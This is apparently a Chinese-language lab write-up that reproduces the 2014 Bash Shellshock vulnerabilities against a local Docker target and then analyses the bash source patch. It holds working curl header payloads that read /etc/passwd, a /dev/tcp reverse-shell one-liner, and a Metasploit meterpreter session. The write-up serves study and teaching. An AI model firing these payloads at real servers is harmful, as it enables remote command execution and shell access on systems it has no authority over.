







<!-- vim-markdown-toc GFM -->

* [初始化环境配置](#初始化环境配置)
	* [注意事项](#注意事项)
	* [简单方法](#简单方法)
	* [优雅方法](#优雅方法)
		* [pyenv 安装指定python版本国内镜像加速](#pyenv-安装指定python版本国内镜像加速)
* [相关漏洞总结](#相关漏洞总结)
* [漏洞利用复现](#漏洞利用复现)
	* [漏洞存在性证明](#漏洞存在性证明)
		* [使用nmap](#使用nmap)
		* [CVE-2014-6271](#cve-2014-6271)
		* [CVE-2014-6277](#cve-2014-6277)
		* [CVE-2014-6278](#cve-2014-6278)
		* [CVE-2014-7169](#cve-2014-7169)
		* [CVE-2014-7186](#cve-2014-7186)
		* [CVE-2014-7187](#cve-2014-7187)
	* [漏洞实战利用](#漏洞实战利用)
		* [使用metasploit](#使用metasploit)
* [漏洞触发原理分析](#漏洞触发原理分析)
	* [CVE-2014-6271](#cve-2014-6271-1)
* [define SEVAL_FUNCDEF	0x080		/* only allow function definitions */](#define-seval_funcdef0x080-only-allow-function-definitions-)
* [define SEVAL_ONECMD	0x100		/* only allow a single command */](#define-seval_onecmd0x100-only-allow-a-single-command-)
* [没有输出结果，因为在当前 $PATH 环境变量指定的路径中并不存在一个名为export的文件](#没有输出结果因为在当前-path-环境变量指定的路径中并不存在一个名为export的文件)
* [输出 /usr/bin/env](#输出-usrbinenv)
* [下载bro-2.5.2源代码编译安装，Ubuntu 16.04.3目前官方APT源里的是2.4.1版本](#下载bro-252源代码编译安装ubuntu-16043目前官方apt源里的是241版本)
* [安装bro源码编译所需依赖lib](#安装bro源码编译所需依赖lib)
* [经验证，使用系统自带 python 环境可以正常编译，但如果使用 pyenv 或 pipenv 方式安装的 python 环境编译bro源码在make时会报错异常退出](#经验证使用系统自带-python-环境可以正常编译但如果使用-pyenv-或-pipenv-方式安装的-python-环境编译bro源码在make时会报错异常退出)
* [解压缩源代码](#解压缩源代码)
	* [suricata](#suricata)
* [漏洞利用的其他形式](#漏洞利用的其他形式)
* [参考资料](#参考资料)

<!-- vim-markdown-toc -->

# 初始化环境配置

## 注意事项

```bash
# 建议在tmux中进行命令行操作，避免误关闭当前命令行窗口导致操作意外中断
sudo apt update && sudo apt install tmux
```

## 简单方法

```bash
# 查看当前系统版本
lsb_release -d
# Description:	Ubuntu 16.04.3 LTS

# 安装 pip
sudo apt install python-pip

# 安装compose
pip install docker-compose
```

## 优雅方法

```bash
# 安装 pip
sudo apt install python-pip

# 安装 pyenv
curl -L https://raw.githubusercontent.com/pyenv/pyenv-installer/master/bin/pyenv-installer | bash

# 添加以下3行指令到 ~/.bashrc
export PATH="~/.pyenv/bin:$PATH"
eval "$(pyenv init -)"
eval "$(pyenv virtualenv-init -)"

# 安装 python 源码编译所需要依赖的lib
# ref: https://github.com/pyenv/pyenv/wiki/Common-build-problems
sudo apt update && sudo apt install -y make build-essential libssl-dev zlib1g-dev libbz2-dev \
libreadline-dev libsqlite3-dev wget curl llvm libncurses5-dev libncursesw5-dev \
xz-utils tk-dev

# 安装 python 3.6.x ，此处支持版本信息 TAB+TAB 自动补全
# 或者通过 pyenv install --list 查看所有可用版本号
# 如果下载时间过长，可以参考 pyenv 安装指定python版本国内镜像加速
pyenv install 3.6.4

# 安装 pipenv
pip install pipenv

# 设置 pipenv 在 bash 环境中的自动补全
# 添加 以下命令  到 ~/.bashrc
eval "$(pipenv --completion)"

# cd 到 vulhub 所在代码根目录
pyenv local 3.6.4
pipenv install docker-compose
pipenv shell

# 普通用户权限编译当前 Dockerfile 和启动容器 的注意事项
sudo $(which docker-compose) build
sudo $(which docker-compose) up -d
```

### pyenv 安装指定python版本国内镜像加速

```bash
PYENV_CACHE="~/.pyenv/cache"
PY_VER="3.6.4" # 根据需要修改为你想要安装的python版本号
PY_URL="http://mirrors.sohu.com/python/${PY_VER}/Python-${PY_VER}.tar.xz"
[ -d ${PYENV_CACHE} ] ||  mkdir -p ${PYENV_CACHE} 
cd ${PYENV_CACHE} && wget ${PY_URL}
[ $? -eq 0 ] && pyenv install ${PY_VER}
```

# 相关漏洞总结

[GNU » Bash : Security Vulnerabilities Published In 2014](https://www.cvedetails.com/vulnerability-list.php?vendor_id=72&product_id=21050&version_id=&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=2014&month=0&cweid=0&order=2&trc=6&sha=680c4355bdd4ddd349907d67b6330425f8f5c193)

# 漏洞利用复现

## 漏洞存在性证明

```bash
# 针对未打补丁的bash进行shellshock攻击可以执行任意指令
curl -H "User-Agent: () { foo;}; echo \"Content-Type: text/plain\" ; echo ; /usr/bin/id" http://127.0.0.1/victim.cgi
curl -H "User-Agent: () { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://127.0.0.1/victim.cgi
```



```bash
# 针对已打补丁的bash进行shellshock攻击无效
curl -H "User-Agent: () { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://127.0.0.1/safe.cgi
curl -H "User-Agent: () { foo;}; echo \"Content-Type: text/plain\" ; echo ; /usr/bin/id" http://127.0.0.1/safe.cgi
```



### 使用nmap

```bash
# ref: https://nmap.org/nsedoc/scripts/http-shellshock.html
# 经过实际测试，如果不指定使用 header=User-Agent 参数，当前目标靶机环境会返回 400 错误，导致检测出现误报（不存在shellshock漏洞）
nmap -sV -p 80 --script http-shellshock --script-args header=User-Agent,uri=/victim.cgi 192.168.123.121

Starting Nmap 7.01 ( https://nmap.org ) at 2018-01-23 21:27 CST
Nmap scan report for bogon (192.168.123.121)
Host is up (0.00035s latency).
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Unix))
|_http-server-header: Apache/2.4.25 (Unix)
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
```

经验分享：

* 在虚拟机环境中使用 ``tcpdump`` 抓包保存为 ``.pcap`` 格式文件，使用 ``scapy`` 读取抓包文件，可以在命令行方式中更优雅的查看任意报文
* Kali内置了 ``scapy`` ，scapy的使用入门可以查看 [我的在线电子教材 - 基于Scapy的无线网络监听编程实践](http://sec.cuc.edu.cn/huangwei/textbook/mis/chap0x02/scapy.html)
* nmap的 ``.nse`` 脚本调试可以使用诸如 ``stdnse.debug1("req.body: '%s'", req.body)`` 这样的语句打印关键变量，nmap执行扫描时可以使用 ``-d`` 参数开启 ``.nse`` 脚本中的 ``stdnse.debug1()`` 打印输出显示

### CVE-2014-6271

```bash
# 以下 POC 代码执行完毕之后会在容器环境中创建文件 /tmp/poc ，且文件内容是 CVE-2014-6271 vulnerable
curl -H "User-Agent: () { :; }; echo \"Content-Type: text/plain\"; echo \"CVE-2014-6271 vulnerable\" > /tmp/poc" http://127.0.0.1/victim.cgi
```





### CVE-2014-6277

```bash
# 容器本地测试 PoC
env X='() { x() { _; }; x() { _; } <<a; }' /usr/local/bash-4.3.0/bin/bash -c :

# 以下 PoC 会导致 HTTP服务器 500错误
curl -H "User-Agent: () { x() { _; }; x() { _; } <<a; }" http://127.0.0.1/victim.cgi

# 已打补丁的CGI访问是正常的 200 HTTP响应码
curl -H "User-Agent: () { x() { _; }; x() { _; } <<a; }" http://127.0.0.1/safe.cgi
```

### CVE-2014-6278

```bash
# 容器本地测试 PoC
env X='() { _; } >_[$($())] { echo CVE-2014-6278 vulnerable; id; }' /usr/local/bash-4.3.0/bin/bash -c :

# 远程测试 PoC-1.0
curl -H "User-Agent: () { _; } >_[\$(\$())] { id > /tmp/CVE-2014-6278.txt; }" http://127.0.0.1/victim.cgi

# 远程测试 PoC-1.1
curl -H "Cookie: () { _; } >_[\$(\$())] { id > /tmp/CVE-2014-6278.txt; }" http://127.0.0.1/victim.cgi

# 远程测试 PoC-2
time curl -H "User-Agent: () { _; } >_[\$(\$())] { sleep 5; }" http://127.0.0.1/victim.cgi
```

### CVE-2014-7169

```bash
# TODO 目前只测试验证了本地环境exploit，远程CGI环境的exploit还没有复现成功
# 以下命令执行成功后会在当前目录下创建一个名为 echo 的文件，文件内容是以下命令的执行时间
env X='() { (a)=>\' /usr/local/bash-4.3.0/bin/bash -c "echo date"; cat echo

curl -H "User-Agent: '() { (a)=>\\' /usr/local/bash-4.3.0/bin/bash -c \"echo date\"; cat echo" http://127.0.0.1/victim.cgi

# 已打补丁情况下的测试
env X='() { (a)=>\' bash -c "echo date"; cat echo
```

### CVE-2014-7186

```bash
# TODO 目前只测试验证了本地环境exploit，远程CGI环境的exploit还没有复现成功
/usr/local/bash-4.3.0/bin/bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo "CVE-2014-7186 vulnerable, redir_stack"

# 已打补丁情况下的测试
bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo "CVE-2014-7186 vulnerable, redir_stack"
```

### CVE-2014-7187

```bash
# TODO 目前只测试验证了本地环境exploit，本地和远程CGI环境的exploit均没有复现成功
(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | /usr/local/bash-4.3.0/bin/bash || echo "CVE-2014-7187 vulnerable, word_lineno"

# 已打补丁情况下的测试
(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash || echo "CVE-2014-7187 vulnerable, word_lineno"
```

## 漏洞实战利用

```bash
# 安装 nc
sudo apt update && sudo apt install netcat

# 在docker的宿主机上 nc 建立本地监听
# 在一个 tmux 窗口中开启nc监听
nc.traditional -l -p 7777

# 在另一个 tmux 窗口中发起攻击
# 建立反向连接
# 此处 docker 宿主机的容器默认网卡IP是 172.17.0.1
# 攻击成功终端没有任何回显，会“卡住”当前curl连接，最后504超时退出当前http连接但并不会影响已经建立起的反向连接
curl -H "User-Agent: () { ignored;};/usr/local/bash-4.3.0/bin/bash -i >& /dev/tcp/172.17.0.1/7777 0>&1" http://127.0.0.1/victim.cgi
```



下图是在 docker 宿主机上获得的反向连接shell执行命令的效果截图，证明我们已经拿到了远程靶机容器的一个普通用户权限shell。



### 使用metasploit

```bash
# on Kali
systemctl start postgresql
msfdb init
msfconsole
# 以下命令在 msfconsole 中输入

# 重建缓存是在后台执行的，需要很长时间 
db_rebuild_cache

# 搜索 bash 相关exploit
# 在缓存没有重建完毕之前，会有一个警告信息提示如下，可以安全的忽略掉： 
# [!] Module database cache not built yet, using slow search
search base 

use exploit/multi/http/apache_mod_cgi_bash_env_exec

# 查看所有可用配置参数
show options

set rhost 192.168.123.121
set TARGETURI /victim.cgi

# 先验证漏洞的可利用性
# 如果可利用，会显示： [+] 192.168.123.121:80 The target is vulnerable.
check

# 查看所有可用的攻击向量
show payloads

set linux/x86/meterpreter/reverse_tcp

# 查看攻击向量的所有可用配置参数
show options

set LHOST 192.168.123.104

exploit

[*] Started reverse TCP handler on 192.168.123.104:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (847604 bytes) to 192.168.123.121
[*] Meterpreter session 1 opened (192.168.123.104:4444 -> 192.168.123.121:48030) at 2018-01-23 21:57:21 +0800

meterpreter > getuid
Server username: uid=1, gid=1, euid=1, egid=1
meterpreter > pwd
/usr/local/apache2/htdocs
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 8.7 (Linux 4.10.0-28-generic)
Architecture : x64
Meterpreter  : x86/linux

meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 14
============
Name         : eth0
Hardware MAC : 02:42:ac:12:00:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.18.0.2
IPv4 Netmask : 255.255.0.0

# 启动一个系统shell
shell

# 由于容器环境中默认没有提供 sudo ，所以使用 sudo 提权会失败
```

# 漏洞触发原理分析

## CVE-2014-6271

```bash
# 常规的本地漏洞利用PoC
env x='() { :;}; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='() { :; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"

# 以下几个“微变形”形态均 **无法触发** 漏洞
env x='(){ :; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='() {:; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='(){:; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='()   { :; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"

# 以下几个“微变形”形态均 **可以触发** 漏洞
env x='() {    :; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='() { whatever; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='() { whatever ; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
```

如上2个例子是在本地验证 ``bash`` 解释器是否受 ``CVE-2014-6271`` 影响的PoC。让我们分段理解这个漏洞触发的原理：

首先，在 Bash 中定义一个函数的标准方法如下：

```bash
function func_name() {
body;
}
```

其中，``function`` 和 ``func_name`` 均可以省略，而 ``函数体`` 的定义可以使用 ``:`` 来表示``什么都不执行``，类似于 ``python`` 里的 ``pass``。所以，``() {:;}`` 就是定义了一个空的匿名Bash函数。其中，``()``之间不能有空格，``() { ``需要用函数定义最严格的写法，不能随意增减``{``左右两边的空格（具体原因见以下Bash相关功能的源代码详解）。函数体内可以有多个空格，不影响代码定义。``;`` 是 Bash 的语句结束分隔符，单行 Bash 脚本通常会用到分号。``echo vulnerable`` 通过一个分号紧跟着 ``() {:;}`` ，所以相当于是单行Bash脚本先完成前一个匿名空函数定义，再执行一条打印语句。 ``env x='<value>'``的作用是将单引号内的内容当作普通文本赋值给环境变量 ``x`` 。

``/usr/local/bash-4.3.0/bin/bash -c "echo this is a test"`` 这里之所以使用 Bash 绝对路径，而不是直接使用 ``bash``，是因为在我们的靶机环境中，实际上有2个不同版本的Bash。其中，存在 ``shellshock`` 相关漏洞的Bash版本对应的就是这里的``/usr/local/bash-4.3.0/bin/bash``。如果直接使用 ``bash`` ，根据系统环境变量 ``$PATH`` 的设置，执行 ``bash`` 相当于执行的是 ``/bin/bash`` ，即已打了 ``shellshock`` 漏洞补丁的Bash。 

接下来，我们直奔Bash源代码仓库，查看变更历史：http://git.savannah.gnu.org/cgit/bash.git/log/ ，CVE-2014-6271 作为 Shellshock 系列漏洞中第一个被曝光的，其修复时间是在 2014-09-25，因此，我们可以查看一下这次修补涉及到哪些源文件和代码。



点击链接: [Bash-4.3 patch 25](http://git.savannah.gnu.org/cgit/bash.git/commit/?id=b64a0e1d0b412cedda763a32d6e5cd6927333f02)，我们可以看到此次补丁涉及到以下几个文件：

* builtins/common.h
* builtins/evalstring.c
* patchlevel.h
* subst.c
* variables.c

经过阅读 diff 结果，我们可以第一步锁定问题代码出在了 ``variables.c``，问题函数是 ``initialize_shell_variables()``。漏洞利用代码中，``env`` 定义的环境变量，被这里的 ``initialize_shell_variables()`` 读入处理了。 

```diff
@@ -358,13 +358,11 @@ initialize_shell_variables (env, privmode)
 	  temp_string[char_index] = ' ';
 	  strcpy (temp_string + char_index + 1, string);

-	  if (posixly_correct == 0 || legal_identifier (name))
-	    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
-
-	  /* Ancient backwards compatibility.  Old versions of bash exported
-	     functions like name()=() {...} */
-	  if (name[char_index - 1] == ')' && name[char_index - 2] == '(')
-	    name[char_index - 2] = '\0';
+	  /* Don't import function names that are invalid identifiers from the
+	     environment, though we still allow them to be defined as shell
+	     variables. */
+	  if (legal_identifier (name))
+	    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST|SEVAL_FUNCDEF|SEVAL_ONECMD);

 	  if (temp_var = find_function (name))
 	    {
@@ -381,10 +379,6 @@ initialize_shell_variables (env, privmode)
 	      last_command_exit_value = 1;
 	      report_error (_("error importing function definition for `%s'"), name);
 	    }
-
-	  /* ( */
-	  if (name[char_index - 1] == ')' && name[char_index - 2] == '\0')
-	    name[char_index - 2] = '(';		/* ) */
 	}
 #if defined (ARRAY_VARS)
 #  if ARRAY_EXPORT
 ```

[补丁前 variables.c 代码](http://git.savannah.gnu.org/cgit/bash.git/tree/variables.c?id=1a1f8b54fb29c2af275253f35a7fcf79815222d5) 的 ``352 行`` 是漏洞触发的关键入口：``If exported function, define it now. Don't import functions from the environment in privileged mode.`` 翻译一下：如果检测到导出函数，则在这里立刻 **执行函数定义** 。特权模式下，不从环境变量导入函数。

注意到这里的 ``if`` 语句有这么一个判断语句 ``STREQN ("() {", string, 4)``，这就解释了为什么漏洞利用代码中必须用到 ``() {`` 这个关键特征代码了，否则就无法让代码执行到后续关键的漏洞代码行。

接下来，在 ``variables.c`` 的 ``361 行``，对比漏洞修复前后的代码，我们发现 ``posixly_correct == 0`` 这个条件被删去了，不过这个条件与漏洞是否存在无关。``legal_identifier(name)`` 的作用是检查环境变量名是否合法。如果通过这里的检查，则会直接执行``parse_and_execute()`` 这个函数。通过对比漏洞修复前后代码，我们发现修复方法是在调用 ``parse_and_execute()`` 函数时，增加了2个标志位参数检查 ``SEVAL_FUNCDEF|SEVAL_ONECMD``。这2个宏定义也是在此次补丁代码的 ``common.h`` 中定义的，作用如下代码注释可见。

```c
#define SEVAL_FUNCDEF	0x080		/* only allow function definitions */
#define SEVAL_ONECMD	0x100		/* only allow a single command */
```

可见，原先存在漏洞的代码是没有考虑到环境变量中可能会包含：``函数体定义和多条bash指令`` 的情况，此处调用 ``parse_and_execute()`` 函数会跳转到 ``builtins/evalstring.c`` 中的函数定义。

```c
if (posixly_correct == 0 || legal_identifier (name))
	    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
```

[漏洞修复后的 builtins/evalstring.c ](http://git.savannah.gnu.org/cgit/bash.git/tree/builtins/evalstring.c?id=b64a0e1d0b412cedda763a32d6e5cd6927333f02) 代码的 ``parse_and_execute()`` 函数定义如下：

```c
/* Parse and execute the commands in STRING.  Returns whatever
   execute_command () returns.  This frees STRING.  FLAGS is a
   flags word; look in common.h for the possible values.  Actions
   are:
   	(flags & SEVAL_NONINT) -> interactive = 0;
   	(flags & SEVAL_INTERACT) -> interactive = 1;
   	(flags & SEVAL_NOHIST) -> call bash_history_disable ()
   	(flags & SEVAL_NOFREE) -> don't free STRING when finished
   	(flags & SEVAL_RESETLINE) -> reset line_number to 1
*/
int
parse_and_execute (string, from_file, flags)
     char *string;
     const char *from_file;
     int flags;
{
   /* ... 省略此部分代码 ... */
  while (*(bash_input.location.string))
    {
   	/* ... 省略此部分代码 ... */
	/* parse_command() 定义在 eval.c ，调用了语法分析器y.tab.c中的yyparse() ，解析结果保存在全局变量 global_command 中
	   另外，parse_command() 是在 eval.c 的 read_command() 中被调用的
	   read_command() 在 eval.c 的 reader_loop() 中被调用
	*/
    if (parse_command () == 0) 
	  {
	  if ((flags & SEVAL_PARSEONLY) || (interactive_shell == 0 && read_but_dont_execute))
	    {
	      last_result = EXECUTION_SUCCESS;
	      dispose_command (global_command);
	      global_command = (COMMAND *)NULL;
	    }
	  else if (command = global_command) /* 漏洞触发关键代码，这里 command 直接被赋值为之前 env 创建的环境变量的值，即：一个函数体定义和一段紧跟着的任意shell代码。你没有看错，这里用的就是赋值操作符，不是 == 。当 parse_command() == 0 时，说明bash的命令解析没有出错，所以 global_command 一定是非空的。 */
	    {
	      struct fd_bitmap *bitmap;

		/* 漏洞修复代码开始 */
	      if ((flags & SEVAL_FUNCDEF) && command->type != cm_function_def) /* 只允许函数体定义并且 command 的类型不是函数体定义，直接报错退出。对于CVE-2014-6271 的利用代码，由于在函数体定义之后又跟了一段代码，所以此处判断就封堵了环境变量值设置成：“函数体定义 + shell代码” 这种“非函数体定义”形式 */
		{
		  internal_warning ("%s: ignoring function definition attempt", from_file);
		  should_jump_to_top_level = 0;
		  last_result = last_command_exit_value = EX_BADUSAGE;
		  break;
		}
		/* 漏洞修复代码结束 */

	      bitmap = new_fd_bitmap (FD_BITMAP_SIZE);
	      begin_unwind_frame ("pe_dispose");
	      add_unwind_protect (dispose_fd_bitmap, bitmap);
	      add_unwind_protect (dispose_command, command);	/* XXX */

	      global_command = (COMMAND *)NULL;

		/* ... 省略此部分代码 ... */

	      /* See if this is a candidate for $( <file ). */
	      if (startup_state == 2 &&
		  (subshell_environment & SUBSHELL_COMSUB) &&
		  *bash_input.location.string == '\0' &&
		  command->type == cm_simple && !command->redirects &&
		  (command->flags & CMD_TIME_PIPELINE) == 0 &&
		  command->value.Simple->words == 0 &&
		  command->value.Simple->redirects &&
		  command->value.Simple->redirects->next == 0 &&
		  command->value.Simple->redirects->instruction == r_input_direction &&
		  command->value.Simple->redirects->redirector.dest == 0)
		    {
		      int r;
		      r = cat_file (command->value.Simple->redirects); 
		      last_result = (r < 0) ? EXECUTION_FAILURE : EXECUTION_SUCCESS;
		    }
	      else
		    last_result = execute_command_internal
				(command, 0, NO_PIPE, NO_PIPE, bitmap); /* 命令执行在此被触发, execute_command_internal() 在 execute_cmd.c 中定义，其第2个参数设置为0，表示命令是非异步执行的，第3和第4个参数在这里分别表示从标准输入读取和输出到标准输出 */
	      dispose_command (command);
	      dispose_fd_bitmap (bitmap);
	      discard_unwind_frame ("pe_dispose");

		  /* ... 漏洞修复代码开始 ... */
	      if (flags & SEVAL_ONECMD)
		    break;
		  /* ... 漏洞修复代码结束 ... */
		  /* TODO 然而，上面2行修复代码的意义我没看出来 */
	    }
	}
      else
	{
	  /* 省略此部分代码 ...*/
	}
    }

 out:

  run_unwind_frame (PE_TAG);

  if (interrupt_state && parse_and_execute_level == 0)
    {
      /* An interrupt during non-interactive execution in an
	 interactive shell (e.g. via $PROMPT_COMMAND) should
	 not cause the shell to exit. */
      interactive = interactive_shell;
      throw_to_top_level ();
    }

  if (should_jump_to_top_level)
    jump_to_top_level (code);

  return (last_result);
}
```

小结一下，根据 ``CVE-2014-6271`` 的漏洞修复补丁比对 [Bash-4.3 patch 25](http://git.savannah.gnu.org/cgit/bash.git/commit/builtins/evalstring.c?id=b64a0e1d0b412cedda763a32d6e5cd6927333f02) ，我们可以看到漏洞触发发生在 ``builtins/evalstring.c`` 的 ``parse_and_execute()`` 函数。``bash -c``在执行代码之前，先继承了``env``定义的环境变量``x``，并且试图把``x``的值当作Bash脚本来直接``解析然后执行``。所以只要在Bash初始化环境变量过程中的``解析然后执行``已有环境变量阶段 ``注入`` 一个包含 ``shell代码`` 的环境变量（当然，根据我们对 ``variables.c`` 的代码分析，这个环境变量还需要包含一个合法的函数体定义，且函数体定义格式必须包含``() {``），则一旦Bash启动就会先执行 ``被污染的环境变量中包含的任意shell代码``。

### env, set, export, unset 详解

[](https://asciinema.org/a/OOhlyHGoDlZNEc9pqJpaWtChk)

ref: [What's the difference between set, export and env and when should I use each?](https://askubuntu.com/questions/205688/whats-the-difference-between-set-export-and-env-and-when-should-i-use-each)

* ``export`` 是 Bash 的内置函数，用于设置 ``环境变量``。子进程会继承父进程的所有环境变量设置；
* ``VAR=whatever`` 是 Bash 语法：对当前Bash进程的``Shell变量 VAR``进行赋值，从当前Bash进程启动的子进程继承的是 ``环境变量``，不是 ``Shell变量``；
* ``Shell变量`` 和 ``环境变量`` 均是只对当前定义（赋值）它们的 shell 进程生效（可见）；
* ``环境变量`` 可以实现持久化（通过配置文件，例如保存在``~/.bashrc``），``Shell变量`` 一旦退出当前 Shell 会话就消失了；
* 根据 Shell 的启动过程读取的配置文件不同，``环境变量`` 可能读取自系统全局配置文件（例如 ``/etc/bash.bashrc``）和当前用户配置文件（``~/.bashrc``）；
* ``env`` 是一个独立程序。可以通过如下2条语句进行验证：

```bash
# 没有输出结果，因为在当前 $PATH 环境变量指定的路径中并不存在一个名为export的文件
which export

# 输出 /usr/bin/env
which env
```

根据 ``env`` 的 man 手册页说明，其调用语法如下：

```
env [OPTION]... [-] [NAME=VALUE]... [COMMAND [ARG]...]
```

执行 ``env`` 会在一个环境变量被修改后的环境中运行一个新进程：``COMMAND``。如果没有指定 ``COMMAND``，则会打印当前环境的所有环境变量，然后退出。如果使用参数 ``-`` 或 ``-i``，则会清空当前环境中的所有环境变量。

